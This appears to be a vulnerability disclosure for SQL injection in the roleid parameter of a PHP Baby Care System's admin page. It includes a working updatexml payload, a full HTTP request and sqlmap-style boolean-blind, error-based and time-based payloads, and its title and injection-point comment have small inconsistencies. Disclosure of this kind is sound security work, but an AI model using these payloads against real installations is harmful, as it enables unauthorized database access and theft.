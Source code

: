 ## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html

Vulnerability file: /BabyCare/admin/pagerole.php&action=delete&value=1&roleid=

![image](https://user-images.githubusercontent.com/54017627/161354607-f6411945-6529-4b2b-8f62-fba8c438d4f6.png)

Vulnerability location: /BabyCare/admin.php?id=pagerole&action=delete&roleid=3&roleid= //postid is Injection point

[+]Payload:  /BabyCare/admin.php?id=pagerole&action=delete&roleid=3%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+&image= //roleid is Injection point

```sql
GET /BabyCare/admin.php?id=pagerole&action=delete&roleid=3%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+&image= HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=h48mjnelp4g0935821l2k3g5ne
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/161354508-76abf092-8537-495c-a11d-49cdb777ce06.png)

```sql
---
Parameter: roleid (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=pagerole&action=delete&roleid=3' RLIKE (SELECT (CASE WHEN (7695=7695) THEN 3 ELSE 0x28 END))-- GKRk&image=

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=pagerole&action=delete&roleid=3' AND EXTRACTVALUE(4186,CONCAT(0x5c,0x71627a7a71,(SELECT (ELT(4186=4186,1))),0x716b717871))-- YUxq&image=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=pagerole&action=delete&roleid=3' AND (SELECT 7670 FROM (SELECT(SLEEP(5)))HXsL)-- vcKn&image=
---
```

![image](https://user-images.githubusercontent.com/54017627/161354622-de63b411-b777-4c25-98d3-f83bf58ceef8.png)
